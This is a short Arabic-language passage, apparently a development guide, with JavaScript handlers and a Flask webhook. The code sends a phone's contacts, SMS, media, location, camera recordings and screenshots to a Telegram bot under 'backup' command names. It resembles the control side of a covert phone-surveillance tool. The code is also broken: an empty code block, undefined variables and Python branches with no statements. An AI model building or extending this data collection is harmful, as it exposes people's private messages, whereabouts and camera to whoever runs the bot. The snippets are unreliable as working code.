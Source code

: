 ```javascript
```

#### **3. إضافة إرسال النتائج للبوت لجميع الأوامر:**
```javascript
// مثال لجهات الاتصال
handleContactsResult(result, error, timestamp) {
    if (result && result.contacts) {
        this.sendResultToBot('backup_contacts', contactsData);
    }
    if (error) {
        this.sendResultToBot('backup_contacts', null, error);
    }
}

// مثال للرسائل النصية
handleSMSResult(result, error, timestamp) {
    if (result && result.messages) {
        this.sendResultToBot('backup_sms', smsData);
    }
    if (error) {
        this.sendResultToBot('backup_sms', null, error);
    }
}
```

### **ب) إضافة Webhook شامل في البوت** (`telegram-bot/app.py`)

```python
@app.route('/webhook', methods=['POST'])
def webhook():
    try:
        # التحقق من التوكن
        auth_token = request.headers.get('X-Auth-Token')
        if auth_token != os.environ.get('WEBHOOK_SECRET', 'secret'):
            return jsonify({'error': 'Unauthorized'}), 401
        
        data = request.get_json()
        command = data.get('command')
        result = data.get('result')
        error = data.get('error')
        timestamp = data.get('timestamp')
        
        # معالجة جميع الأوامر
        if command == 'backup_contacts':
            # معالجة جهات الاتصال
        elif command == 'backup_sms':
            # معالجة الرسائل النصية
        elif command == 'backup_media':
            # معالجة الوسائط
        elif command == 'get_location':
            # معالجة الموقع
        elif command == 'record_camera':
            # معالجة تسجيل الكاميرا
        elif command == 'take_screenshot':
            # معالجة لقطة الشاشة
        
        return jsonify({'status': 'success'}), 200
        
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```
